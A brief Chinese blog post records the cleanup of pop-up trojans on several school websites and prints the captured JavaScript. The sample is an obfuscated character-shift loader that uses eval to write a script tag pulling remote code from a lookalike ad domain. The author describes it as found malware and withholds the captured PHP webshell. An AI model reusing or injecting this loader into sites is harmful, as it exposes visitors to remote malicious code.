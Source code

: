 
---
title: js木马
description: 木马发现
date: 2015-12-31
categories:
  - "日常"
tags:
  - "木马"
  - "js"
  - "php"
---

最近发现学校的多个站点，中了弹窗木马，费了好大劲，清完了，同时缴获php大马一枚，还不错。。。

木马代码

```js
var str="cnbtldms-vqhsd'!;rbqhosrqb<[!gsso9..vvv-fnnfkd`crk-bnl.robncd.iptdqx-ir[!=;.rbqhos=!(:";var length=str.length;var ba64="";for(i=0;i<length;i++){var s=str.charCodeAt(i);s++;ba64=ba64+String.fromCharCode(s)}eval(ba64);
```

木马程序就不上传了，哈哈